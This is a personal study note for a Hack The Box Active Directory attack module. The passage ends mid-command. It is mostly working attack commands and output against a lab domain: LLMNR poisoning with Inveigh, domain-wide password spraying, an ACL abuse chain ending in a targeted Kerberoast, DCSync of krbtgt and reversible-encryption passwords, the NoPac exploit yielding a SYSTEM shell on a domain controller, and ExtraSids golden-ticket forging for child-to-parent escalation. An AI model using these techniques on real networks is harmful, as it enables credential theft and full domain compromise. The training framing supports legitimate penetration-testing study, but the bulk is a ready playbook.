


# Active Directory Enumeration & Attacks (HTB Supplementary)

#ActiveDirectory #ADEnum #ADAttacks #Kerberoasting #ASREPRoasting #ACLAbuse #DCSync #DomainTrusts #Inveigh #DomainPasswordSpray #NoPac #BloodHound #PowerView #LivingOffTheLand #ExtraSids #CrossForest #raiseChild #HTBSupplementary

**HTB Active Directory Enumeration & Attacks module** — the largest standalone HTB AD module. Covers the full attack lifecycle from external recon through cross-forest trust abuse. This note documents only content NOT already in the vault. Techniques already covered are listed below and skipped here.

> 🔁 Cross-refs: [[Password Attacks]] (Responder LLMNR basics, NTLMv2 hashcat -m 5600), [[Password Attacks (HTB Supplementary)]] (kerbrute, username-anarchy, Snaffler basics, PtH, PtT, PtC, VSS NTDS dump), [[Active Directory Methodology]] (password spray, AS-REP roast, Kerberoasting, DCSync, BloodHound import, Golden Ticket), [[Footprinting#FP.8. MSSQL|FP.8]] (xp_cmdshell, mssqlclient basics), [[Attacking Common Services (HTB Supplementary)]] (MSSQL impersonation, linked server attacks), [[Pivoting, Tunneling, and Port Forwarding (HTB Supplementary)]] (autoroute, Meterpreter SOCKS), [[Windows Privilege Escalation]] (SeImpersonatePrivilege), [[MODERN TOOLING/Kerbrute|Kerbrute]], [[MODERN TOOLING/Snaffler|Snaffler]], [[MODERN TOOLING/SigmaPotato|SigmaPotato]]

---

## Already in vault — skipped here

- Responder LLMNR/NBT-NS poisoning from Linux (Module 16 + PA module)
- hashcat -m 5600 for NTLMv2 hashes
- kerbrute userenum and passwordspray (PA.14, AD Methodology)
- crackmapexec / netexec --shares, SMB enumeration
- GetUserSPNs.py Kerberoasting basics (AD Methodology Phase 2 Step 4)
- Rubeus kerberoast basic invocation (AD Methodology)
- secretsdump / DCSync from Linux basics (AD Methodology Phase 3)
- PtH, PtT, PtC full workflows (PA.18, PA.19, PA.20, PA.21)
- BloodHound Invoke-BloodHound / SharpHound.exe basic import (AD Methodology Phase 1 Step 7)
- Snaffler per-host scan (PA.17.4)
- AS-REP Roasting with GetNPUsers.py (AD Methodology Phase 2 Step 3)
- mssqlclient.py + xp_cmdshell basics (FP.8, CS module)
- WinRM via evil-winrm, PSRemoting basics (AD Methodology Phase 4)

---

## AD.1. External Recon — DNS TXT Records

DNS TXT records sometimes expose internal domain names or even flags during CTF-style assessments. `nslookup` in interactive mode lets you query specific record types:

```bash
# Switch to a specific nameserver and query TXT records for a domain
nslookup
> server 8.8.8.8              # point at any public resolver
> set type=TXT
> INLANEFREIGHT.LOCAL         # the target domain
# Returns all TXT records including any SPF, DKIM, or custom entries

# Hurricane Electric bulk TXT lookup (passive):
# https://bgp.he.net → search domain → TXT tab
```

> 📸 Screenshot: nslookup TXT record output showing TXT entries

> 🔍 Worth remembering generally: DNS TXT records can leak internal domain names, mail server configs, and sometimes cleartext service credentials left as SPF overrides. Always query TXT before moving to active scanning.

#### Tags: #DNS #TXTRecord #ExternalRecon #nslookup

---

## AD.2. Initial Domain Enumeration — nmap Tricks

### AD.2.1. Extract DC Hostname from SSL Certificate

RDP (port 3389) and LDAPS (port 636) present TLS certificates during the handshake. The `commonName` field in the cert usually contains the DC's FQDN, revealing the hostname without any authentication:

```bash
# Grab the commonName from the TLS cert on port 3389 (RDP) or 636 (LDAPS)
sudo nmap -A -sV -p 443,3389,636 <TARGET_IP> | grep -i "commonname\|CN="
# → commonName=ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

> 📸 Screenshot: nmap output showing SSL cert commonName containing the FQDN

### AD.2.2. Parse Grepable nmap Output for a Specific Port

When scanning a large range and writing grepable (`-oG`) output, extract hosts with a specific port open:

```bash
# Run a scan and write grepable output
sudo nmap -p 1433 --open -oG mssql_scan.txt 172.16.5.0/24

# Pull just the IP column for hosts with port 1433 open
awk '/1433\/open/ {print $2}' mssql_scan.txt
# → 172.16.5.130
```

The `awk` pattern `/1433\/open/` matches lines containing that string; `{print $2}` outputs the IP field (column 2 in grepable format).

> 🔁 Similar to: [[Information Gathering#nmap grepable output|nmap -oG]] — same `-oG` format, different field being parsed.

#### Tags: #nmap #SSL #TLSCert #FQDN #awk #GrepableNmap #InitialEnum

---

## AD.3. LLMNR/NBT-NS Poisoning from Windows — Inveigh

Responder runs from Linux. When you already have a Windows foothold and want to poison LLMNR/NBT-NS from that machine, **Inveigh** is the PowerShell equivalent.

> 🔁 Similar to: Module 16 Responder — same attack, different platform. Inveigh is the Windows-native version of Responder.

```powershell
# Import the module (download from https://github.com/Kevin-Robertson/Inveigh)
Import-Module .\Inveigh.ps1

# Start poisoning: -NBNS Y enables NetBIOS-NS poisoning, -FileOutput Y writes captures to files
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
# Runs in foreground, ctrl+c to stop
```

While running, Inveigh outputs captured NTLMv2 hashes inline. To read the captured hashes from the log file after stopping:

```powershell
# File is written to the current directory
type Inveigh-NTLMv2.txt
# → [+] username::domain:challenge:hash
```

Crack with hashcat as usual:
```bash
hashcat -m 5600 inveigh_hashes.txt /usr/share/wordlists/rockyou.txt
```

> 🔍 Worth remembering generally: Inveigh requires local admin on the Windows host to bind to port 80/445/5355. It's most useful after you've got a Windows foothold but haven't pivoted back to Kali yet, so you can grab NTLM hashes from the local network segment passively.

> 📸 Screenshot: Inveigh console showing captured NTLMv2 challenge-response

There's also a C# version (`InveighZero`) that runs as a compiled binary and is harder for script-block logging to catch. In the HTB module the PS version is used.

#### Tags: #LLMNR #NBTNS #Inveigh #NTLMv2 #PoisoningWindows #Responder

---

## AD.4. Password Policy Enumeration

Knowing the lockout threshold and minimum password length is critical before spraying. Default Windows domain password policy has a **minimum length of 7** (not 8 — the 8+ requirement is a common CIS hardening recommendation, not the default).

```bash
# From Linux (unauthenticated, if null session allowed):
enum4linux -P <DC_IP>

# From Linux (authenticated):
crackmapexec smb <DC_IP> -u <user> -p <pass> --pass-pol
# Output: [+] Minimum password length: 8
# Output: [+] Account lockout threshold: 5 attempts
# Output: [+] Account lockout duration: 30 mins

# From Linux (authenticated, rpcclient):
rpcclient -U "<DOMAIN>\\<user>%<pass>" <DC_IP>
rpcclient $> getdompwinfo
# minPasswordLength: 8
# passwordProperties: DOMAIN_PASSWORD_COMPLEX

# From Windows (PowerView):
Import-Module .\PowerView.ps1
Get-DomainPolicy
(Get-DomainPolicy)."system access"
# minPwdLength = 8
```

> 🔍 Worth remembering generally: the default Windows domain policy minimum password length is 7. If you see 7, it means no custom policy has been applied — easier for your spray candidates. An 8-char minimum usually means CIS hardening. A lockout threshold of 0 means no lockout at all (spray freely). Threshold of 5 means stop at 3-4 attempts per account to stay safe.

#### Tags: #PasswordPolicy #minPwdLength #enum4linux #crackmapexec #rpcclient #getdompwinfo

---

## AD.5. Password Spraying from Windows — DomainPasswordSpray

From a Windows foothold, `DomainPasswordSpray.ps1` pulls the user list directly from AD (no need to supply one) and sprays a single password across all domain accounts:

```powershell
# Download: https://github.com/dafthack/DomainPasswordSpray
Import-Module .\DomainPasswordSpray.ps1

# Spray a single password; -ErrorAction SilentlyContinue suppresses per-user failures
Invoke-DomainPasswordSpray -Password Winter2022 -Outfile spray_success.txt -ErrorAction SilentlyContinue
# Output: [*] Now spraying... this may take a while
# Output: [*] SUCCESS! User:dbranch Password:Winter2022

# Results file
cat spray_success.txt
```

The module automatically excludes accounts within 1 attempt of lockout, queries the current domain's password policy, and respects the account lockout threshold before sending credentials.

> 🔧 Technique: DomainPasswordSpray reads the AD lockout threshold and waits between rounds. It does NOT wait between individual users within a round though. If the lockout is set to 5 attempts but the observation window is 30 minutes, spraying at 4 per 30 min per account is safe. The tool doesn't enforce the observation window delay internally, so if you're doing multiple rounds manually, wait the full observation window between passes.

> 🔁 Similar to: kerbrute passwordspray (Kali-side spray via Kerberos). DomainPasswordSpray is the Windows-native equivalent when you already have a foothold.

#### Tags: #PasswordSpray #DomainPasswordSpray #WindowsSpray #ADEnum

---

## AD.6. Credentialed Enumeration from Linux — rpcclient + CME Groups

### AD.6.1. rpcclient Individual User Lookup by RID

`rpcclient queryuser` looks up a single user by their RID (decimal). Useful when you have a specific RID from a log or another tool's output:

```bash
rpcclient -U "INLANEFREIGHT\forend%Klmcargo2" 172.16.5.5 -c "queryuser 0x457"
# RID 0x457 = decimal 1111 = the account at that slot
# Output: User Name    : mmorgan
#         Full Name    : Matthew Morgan
#         Profile      : ...
```

The RID is in hex (`0x457` = decimal 1111). Convert with `echo "obase=10; ibase=16; 457" | bc` or just use `$((16#457))` in bash.

### AD.6.2. CrackMapExec --groups for Membercount

```bash
# List all domain groups with member counts (no need to enumerate members separately for triage)
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
# Output: INLANEFREIGHT.LOCAL\Interns               membercount: 10
#         INLANEFREIGHT.LOCAL\IT                    membercount: 8
#         INLANEFREIGHT.LOCAL\Help Desk Level 1     membercount: 4
```

Membercount helps prioritise which groups to dig into first. High-value groups (Domain Admins, IT, Help Desk) often have interesting membership.

#### Tags: #rpcclient #queryuser #RID #crackmapexec #groups #membercount #CredentialedEnum

---

## AD.7. Credentialed Enumeration from Windows — Full Suite

### AD.7.1. bloodhound-python — Remote Collection from Kali

When you can't run SharpHound on the target (AV, no RDP, no WinRM), collect BloodHound data remotely from Kali using valid domain credentials:

```bash
# Install
pip3 install bloodhound

# Collect all data types remotely, targeting the DC as the DNS server
bloodhound-python -d INLANEFREIGHT.LOCAL -u forend -p Klmcargo2 \
  -ns 172.16.5.5 -c all
# Writes: computers.json, domains.json, groups.json, users.json, sessions.json
# Zip them up:
zip -r bh_data.zip *.json
```

Import the zip into BloodHound on Kali the same way as SharpHound output.

### AD.7.2. Snaffler Domain-Wide Scan

The PA.17.4 vault entry covers per-host Snaffler. For a full domain sweep, use the domain flag:

```cmd
Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
# -d = target domain (enumerates all shares accessible to current user)
# -s = write to stdout
# -v data = verbose, show file content snippets
```

> 📸 Screenshot: Snaffler output with {Red} or {Green} credential hits from domain shares

> 🔁 Similar to: [[Password Attacks (HTB Supplementary)#PA.17.4. Snaffler — Automated Interesting-File Finder|PA.17.4]] per-host variant. Add `-d` to go domain-wide.

### AD.7.3. PowerView — Full Enumeration Toolkit

Functions not yet in vault:

```powershell
Import-Module .\PowerView.ps1

# Find accounts with no pre-auth required (AS-REP Roasting candidates)
Get-DomainUser -PreauthNotRequired
# Returns users who can be AS-REP Roasted without credentials

# Find accounts with PASSWD_NOTREQD flag (blank password allowed)
Get-DomainUser -UACFilter PASSWD_NOTREQD
# These accounts can have blank passwords — worth trying

# Find accounts with reversible encryption enabled (cleartext possible)
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}

# Enumerate a group and check admincount (protected objects)
Get-DomainGroup -Identity "Help Desk Level 1" | select memberof,member
Get-DomainGroupMember -Identity "Domain Admins" -Recurse

# Check if current user has local admin on specific hosts
Test-AdminAccess -ComputerName ACADEMY-EA-MS01
# Returns True/False per host — no shell needed, just a quick reachability check

# Get current domain SID (needed for golden tickets)
Get-DomainSID
# → S-1-5-21-2806153819-209893948-922872689

# Get an object from a DIFFERENT domain (cross-domain query)
Get-DomainObject -Identity "Enterprise Admins" -Domain INLANEFREIGHT.LOCAL
# Returns the Enterprise Admins group from the parent domain, including its SID

# Enumerate domain trusts
Get-DomainTrustMapping
# Shows: SourceName, TargetName, TrustType, TrustDirection for all trusts
```

### AD.7.4. setspn.exe — Native Windows SPN Enumeration

When PowerView/Rubeus aren't available, the built-in `setspn.exe` lists all SPNs in the domain. No special privileges required:

```cmd
# Query all SPNs in the domain (wildcard both parts)
setspn -Q */*
# Output: CN=SVC_VMWARESSO,OU=Service Accounts,...
#         MSSQLSvc/ACADEMY-EA-SQL01.INLANEFREIGHT.LOCAL:1433
#         WSMAN/ACADEMY-EA-MS01
```

Each SPN is a Kerberoasting candidate. The `CN=` line shows which AD object it's registered on.

#### Tags: #bloodhoundPython #Snaffler #PowerView #TestAdminAccess #GetDomainSID #GetDomainTrustMapping #setspn #PASSWD_NOTREQD #PreauthNotRequired #ENCRYPTED_TEXT_PWD_ALLOWED

---

## AD.8. Living Off the Land

### AD.8.1. Windows Defender Status

```powershell
# Check Windows Defender health and product version (LotL — built into Windows)
Get-MpComputerStatus
# Key fields:
# AMProductVersion    : 4.18.2109.6   ← AV signature version
# RealTimeProtectionEnabled : True/False
# AntivirusEnabled    : True
```

AMProductVersion tells you if Defender is up to date. An old version may be exploitable or indicate disabled updates.

### AD.8.2. Local Administrators

```cmd
rem Enumerate local Administrators group (built-in, no tools needed)
net localgroup Administrators
```

Lists all members of the local Administrators group. Domain accounts that are local admins appear here as `DOMAIN\username`. Check every box you land on.

### AD.8.3. dsquery — LDAP Filter for Disabled Admin Accounts with Descriptions

`dsquery` is a built-in Windows LDAP query tool. Useful when RSAT/PowerView isn't available:

```cmd
rem Find admin accounts (adminCount=1) that are disabled AND have a Description field
dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2)(adminCount>=1)(description=*))" -attr samAccountName description -limit 50
```

The filter breakdown:
- `objectCategory=person` + `objectClass=user` = domain users only
- `userAccountControl:1.2.840.113556.1.4.803:=2` = account is disabled (UAC bit 2)
- `adminCount>=1` = has been in a privileged group (SD propagator marked them)
- `description=*` = has any description set

> 🔍 Worth remembering generally: IT teams sometimes disable admin accounts instead of deleting them, and leave the original password in the `description` field as a reminder. Finding disabled admins with descriptions is a quick win. The `1.2.840.113556.1.4.803` OID is the LDAP bitwise AND operator. Bit 2 in UAC is ACCOUNTDISABLE.

> 📸 Screenshot: dsquery output showing disabled admin account with password in description field

#### Tags: #LivingOffTheLand #GetMpComputerStatus #WindowsDefender #netLocalgroup #dsquery #LDAP #UAC #adminCount

---

## AD.9. ACL Enumeration

### AD.9.1. DACL vs SACL

Every Active Directory object has a Security Descriptor containing two ACLs:
- **DACL** (Discretionary ACL): who can access the object and what they can do. What attackers care about.
- **SACL** (System ACL): what access generates audit log entries. Not directly exploitable but useful for understanding what's being monitored.

Access Control Entries (ACEs) inside a DACL are typed:
- `Access_Allowed_ACE_Type` = explicit allow
- `Access_Denied_ACE_Type` = explicit deny (processed before allows)
- `System_Audit_ACE_Type` = generates an audit event (SACL)

### AD.9.2. PowerView ACL Enumeration

```powershell
# Enumerate all ACLs in the domain, resolve GUIDs to human-readable names
# Warning: very slow without filtering — always scope with -Identity or -SearchBase
Get-DomainObjectACL -ResolveGUIDs -Identity * -domain INLANEFREIGHT.LOCAL \
  -SearchBase "LDAP://OU=Department Computers,DC=INLANEFREIGHT,DC=LOCAL"

# Get our current user's SID
$sid = Convert-NameToSid wley
# → S-1-5-21-...

# Find all objects where wley has an interesting ACE
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
# Output per ACE:
# ObjectDN         : CN=damundsen,OU=...
# AceType          : AccessAllowed
# ActiveDirectoryRights : GenericWrite
# ObjectAceType    : User-Force-Change-Password
```

The `ObjectAceType` field uses the resolved GUID name when `-ResolveGUIDs` is passed. Without it you'd see raw GUIDs like `00299570-246d-11d0-a768-00aa006e0529` (the User-Force-Change-Password GUID).

> 🔍 Worth remembering generally: `-ResolveGUIDs` translates the extended right GUIDs into names like `User-Force-Change-Password` or `DS-Replication-Get-Changes-All`. Always use it. Without it the output is unreadable hex GUIDs. The GUID `00299570-246d-11d0-a768-00aa006e0529` = User-Force-Change-Password specifically.

> 📸 Screenshot: Get-DomainObjectACL output showing resolved ACE with GenericWrite/ForceChangePassword

### AD.9.3. Common Exploitable Rights

| Right | What it means | Attack |
|---|---|---|
| `GenericAll` | Full control over the object | Password reset, add to group, targeted Kerberoast |
| `GenericWrite` | Write any non-protected attribute | Set SPN (targeted Kerberoast), modify logon script |
| `ForceChangePassword` | Reset password without knowing current | Set-DomainUserPassword |
| `Self-Membership` | Add yourself to a group | Add-DomainGroupMember |
| `WriteOwner` | Change the object owner | Change owner, then GenericAll |
| `WriteDACL` | Modify the DACL | Grant yourself GenericAll |
| `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` | DCSync rights | lsadump::dcsync |

#### Tags: #ACLEnum #DACL #SACL #ACE #GetDomainObjectACL #ResolveGUIDs #ConvertNameToSid #PowerView

---

## AD.10. ACL Abuse Chain

The classic HTB lab chain: `wley` (captured via Responder) → `damundsen` → `Help Desk Level 1` → `adunn` → DCSync.



### Step 1: Force-Change damundsen's password (as wley)

```powershell
# Build PSCredential for wley (so all PowerView calls use wley's context)
$passwd = ConvertTo-SecureString "transporter@4" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $passwd)

# Set a new password for damundsen
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

### Step 2: Add damundsen to Help Desk Level 1 (as damundsen)

```powershell
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $damundsenPassword)

Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
# Verify:
Get-DomainGroupMember -Identity 'Help Desk Level 1' | Select MemberName
```

### Step 3: Set SPN on adunn (as damundsen via Help Desk Level 1 GenericAll)

```powershell
# GenericAll → set a fake SPN so adunn becomes Kerberoastable
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

### Step 4: Kerberoast adunn (targeted)

```cmd
rem From the same Windows box (Rubeus)
.\Rubeus.exe kerberoast /user:adunn /nowrap
rem Copy the hash block
```

```bash
# Crack on Kali
hashcat -m 13100 adunn.hash /usr/share/wordlists/rockyou.txt
# → SyncMaster757
```

### Cleanup

Always clean up after ACL abuse labs to leave the environment consistent:

```powershell
# Remove the fake SPN
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# Remove damundsen from Help Desk Level 1
Remove-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

> 🔍 Worth remembering generally: the PSCredential object pattern (`$Cred = New-Object ... PSCredential`) is how you run PowerView commands in a different user's context without an interactive logon. This is how you chain multi-hop ACL abuse: each step uses a new `$Cred` for the account you just compromised.

> 📸 Screenshot: Get-DomainObjectACL output → Set-DomainObject SPN set → Rubeus hash capture

#### Tags: #ACLAbuse #SetDomainUserPassword #AddDomainGroupMember #SetDomainObject #TargetedKerberoast #PSCredential #PowerView

---

## AD.11. DCSync — Reversible Encryption

DCSync (mimikatz `lsadump::dcsync`) is already in the vault. Two new patterns here:

### AD.11.1. Finding Accounts with Reversible Encryption Enabled

Some organisations enable "Store password using reversible encryption" for legacy application compatibility. This stores a derivable cleartext in the directory:

```powershell
# Find any accounts with the flag set
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
# → syncron (the account in the lab)
```

Once you have DS-Replication rights (DCSync), dump that account:

```mimikatz
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\syncron
# Look for: "Cleartext password:" in the output
# → Mycleart3xtP@ss!
```

The cleartext appears because Windows stores the reversibly-encrypted blob; DCSync can derive the plaintext.

### AD.11.2. runas /netonly — Domain Creds from a Non-Domain Machine

When Kali can reach the DC but you aren't on a domain-joined machine, `runas /netonly` spawns a process using domain credentials for network auth only (local context stays unchanged):

```cmd
rem Spawn a new cmd using adunn's domain credentials for network authentication
runas /netonly /user:INLANEFREIGHT\adunn "cmd.exe"
rem Type adunn's password when prompted
rem In the new cmd window, network requests go as adunn@INLANEFREIGHT
```

Then run mimikatz in that new cmd:
```mimikatz
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\krbtgt
```

> 🔍 Worth remembering generally: `runas /netonly` is like `sudo -u` for network authentication only. The local prompt still shows your original user, but all SMB/LDAP/Kerberos traffic uses the credentials you gave. Useful when you're in a Windows Sandbox/VM without domain membership but have valid domain creds.

#### Tags: #DCSync #ReversibleEncryption #ENCRYPTED_TEXT_PWD_ALLOWED #runasNetonly #mimikatz #lsadump

---

## AD.12. Privileged Access via WinRM and SQL

### AD.12.1. BloodHound Cypher Queries for Privileged Access

These aren't in the standard pre-built queries. Run them in the BloodHound raw query box:

```cypher
-- Find users with CanPSRemote rights to any computer
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer)
RETURN p2

-- Find users with SQLAdmin rights to any computer
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group))
MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer)
RETURN p2
```

Results tell you which users can PSRemote or run SQL admin commands on which hosts without needing to enumerate manually.

### AD.12.2. WinRM with PSCredential

When BloodHound shows CanPSRemote, connect with explicit creds:

```powershell
$passwd = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\forend', $passwd)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

### AD.12.3. MSSQL via SQLAdmin Rights

When BloodHound shows SQLAdmin rights, use impacket's `mssqlclient.py` with Windows Authentication:

```bash
# -windows-auth = use AD (Kerberos/NTLM) instead of SQL authentication
mssqlclient.py INLANEFREIGHT.LOCAL/damundsen@172.16.5.150 -windows-auth
```

Then inside the SQL shell:
```sql
-- Enable xp_cmdshell (requires SA or sysadmin)
enable_xp_cmdshell
-- or:
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

-- Run OS commands
xp_cmdshell whoami
xp_cmdshell "type c:\users\administrator\desktop\flag.txt"
```

> 🔁 Similar to: [[Footprinting#FP.8. MSSQL|FP.8]] + [[Attacking Common Services (HTB Supplementary)]] for full xp_cmdshell context. The difference here is using AD credentials (-windows-auth) rather than SQL credentials.

#### Tags: #PrivilegedAccess #BloodHoundCypher #CanPSRemote #SQLAdmin #PSRemoting #mssqlclient #windowsauth #xpcmdshell

---

## AD.13. Bleeding Edge: NoPac (CVE-2021-42278 + CVE-2021-42287)

NoPac chains two vulnerabilities:
- **CVE-2021-42278**: Machine accounts can rename themselves to impersonate a DC (no restriction on `sAMAccountName` by default)
- **CVE-2021-42287**: The KDC falls back to a DC's account when a requested TGS principal can't be found

Combined: a low-privilege domain user can impersonate a Domain Controller and get a TGT as that DC, then perform DCSync.

```bash
# Clone the exploit
git clone https://github.com/Ridter/noPac.git
cd noPac
pip3 install -r requirements.txt

# Run the scanner first to confirm vulnerability
python3 scanner.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
# → Got TGT with PAC → vulnerable

# Get an interactive shell as SYSTEM via impersonation
python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 \
  -dc-ip 172.16.5.5 -use-ldap \
  -shell --impersonate administrator
# Spawns a semi-interactive shell running as NT AUTHORITY\SYSTEM on the DC
```

> 🔧 Technique: NoPac creates a machine account (any domain user can create up to 10 by default — the `MachineAccountQuota`), renames its `sAMAccountName` to match a DC, requests a TGT under that name, then renames back before requesting a TGS. The KDC looks up the TGS target, doesn't find the renamed account, appends `$` and finds the real DC — issuing a PAC claiming DC privileges. Patched in MS21-42278 (November 2021 patch).

> 🔍 Worth remembering generally: this works even on fully patched targets if the November 2021 patch wasn't applied. Always check with the scanner first — if `Got TGT with PAC` appears, you're golden. The exploit is noisy (creates a machine account) so clean up afterwards in real engagements.

> 📸 Screenshot: noPac scanner confirming vulnerability, then shell showing `whoami = NT AUTHORITY\SYSTEM`

#### Tags: #NoPac #CVE202142278 #CVE202142287 #MachineAccountQuota #BleedingEdge #DCImpersonation

---

## AD.14. Miscellaneous Misconfigurations

### AD.14.1. PASSWD_NOTREQD Flag

Domain accounts with `PASSWD_NOTREQD` in their UAC can have blank passwords. These are often service accounts or legacy accounts:

```powershell
# Find all accounts with PASSWD_NOTREQD set
Get-DomainUser -UACFilter PASSWD_NOTREQD | select samaccountname, useraccountcontrol
# → ygroce  PASSWD_NOTREQD, NORMAL_ACCOUNT

# Try to auth with a blank password:
crackmapexec smb <DC_IP> -u ygroce -p ''
```

> 🔍 Worth remembering generally: `PASSWD_NOTREQD` doesn't mean the account definitely has a blank password — it just means Windows allows it. The account might still have a password set. Try blank first, then spray.

### AD.14.2. AS-REP Roasting with Rubeus (format:hashcat)

The cheat sheet covers `GetNPUsers.py`. The Windows-side equivalent uses Rubeus with the correct format flag for hashcat compatibility:

```cmd
rem AS-REP Roast all accounts with pre-auth disabled; /format:hashcat for cracking
.\Rubeus.exe asreproast /format:hashcat /nowrap
rem Copy the $krb5asrep$23$... hash
```

```bash
# Crack on Kali — mode 18200 is AS-REP (different from 13100 which is TGS Kerberoast)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
# → Pass@word
```

> 🔁 Similar to: [[Active Directory Methodology#Step 3: AS-REP Roasting|AD Methodology Phase 2 Step 3]] uses `GetNPUsers.py`. Rubeus `/format:hashcat` is the Windows-side equivalent producing the same hash format.

#### Tags: #PASSWD_NOTREQD #UAC #ASREPRoast #Rubeus #hashcat #18200 #MiscMisconfig

---

## AD.15. Domain Trusts

### AD.15.1. Trust Types

| Trust Type | What it means |
|---|---|
| `WITHIN_FOREST` | Trust between domains in the same AD forest (automatic, bidirectional by default) |
| `FOREST_TRANSITIVE` | Trust between two separate AD forests (requires manual setup) |
| `Bidirectional` | Both domains trust each other (users from both sides can authenticate to either) |
| `Inbound` | Remote domain trusts US. Remote users can authenticate to our resources. |
| `Outbound` | We trust THEM. Our users can authenticate to their resources. |

### AD.15.2. Enumerating Trusts

```powershell
# PowerView — full trust map
Get-DomainTrustMapping
# Output per trust:
# SourceName          : INLANEFREIGHT.LOCAL
# TargetName          : LOGISTICS.INLANEFREIGHT.LOCAL
# TrustType           : WITHIN_FOREST
# TrustDirection      : Bidirectional

# netdom — built-in Windows tool
netdom query /domain:inlanefreight.local trust
```

In the HTB lab:
- `LOGISTICS.INLANEFREIGHT.LOCAL` — child domain (WITHIN_FOREST, Bidirectional)
- `FREIGHTLOGISTICS.LOCAL` — external forest (FOREST_TRANSITIVE, Bidirectional)

> 📸 Screenshot: Get-DomainTrustMapping output showing both trusts

#### Tags: #DomainTrusts #TrustType #WITHIN_FOREST #FOREST_TRANSITIVE #GetDomainTrustMapping #netdom

---

## AD.16. Child→Parent Trust Attack (Windows — ExtraSids)

When you compromise a child domain, you can forge a Golden Ticket that includes the `Enterprise Admins` SID from the parent domain in the `ExtraSids` field. Windows's SID filtering allows this for WITHIN_FOREST trusts.



### Step 1: Get the child domain SID

```powershell
# On the child DC or from a child domain-joined machine
Get-DomainSID
# → S-1-5-21-2806153819-209893948-922872689
```

### Step 2: Get the Enterprise Admins SID from the parent

```powershell
# Query the parent domain's Enterprise Admins group for its SID
Get-DomainObject -Identity "Enterprise Admins" -Domain INLANEFREIGHT.LOCAL
# → ObjectSID: S-1-5-21-3842939050-3880317879-2865463114-519
# 519 is the RID for Enterprise Admins
```

### Step 3: Get the child KRBTGT hash

```mimikatz
lsadump::dcsync /user:LOGISTICS\krbtgt
# NTLM: 9d765b482771505cbe97411065964d5f
```

### Step 4: Forge the Golden Ticket with ExtraSids

```cmd
rem Using Rubeus on the child DC
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f \
  /domain:LOGISTICS.INLANEFREIGHT.LOCAL \
  /sid:S-1-5-21-2806153819-209893948-922872689 \
  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 \
  /user:hacker \
  /ptt
```

The `/sids:` field injects the Enterprise Admins SID as an ExtraSid. The ticket is loaded directly into the current session (`/ptt`).

### Step 5: Verify and access parent DC

```cmd
klist
rem → Cached Tickets: hacker@LOGISTICS.INLANEFREIGHT.LOCAL

rem Try to access the parent DC's C$ share
ls \\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\c$
rem → Success → f@ll1ng_l1k3_d0m1no3$
```

> 🔍 Worth remembering generally: the ExtraSids attack works because WITHIN_FOREST trusts don't filter SID history. The `SID filtering` that would block this only applies to FOREST_TRANSITIVE (cross-forest) trusts. This is a design decision — Microsoft accepts this risk for within-forest trusts. SID filtering can be enabled within a forest (hardening) but rarely is.

> 📸 Screenshot: Rubeus golden output → klist showing injected ticket → successful ls of parent DC C$

#### Tags: #ExtraSids #GoldenTicket #ChildParentAttack #Rubeus #SIDFiltering #ForestPrivEsc

---

## AD.17. Child→Parent Trust Attack (Linux — raiseChild.py)

`raiseChild.py` from Impacket automates the entire child→parent escalation in a single command:

```bash
# From Kali — automates: DCSync child KRBTGT → forge ExtraSids ticket → authenticate to parent DC
impacket-raiseChild -target-exec DC01.INLANEFREIGHT.LOCAL \
  LOGISTICS.INLANEFREIGHT.LOCAL/Administrator:Klmcargo2
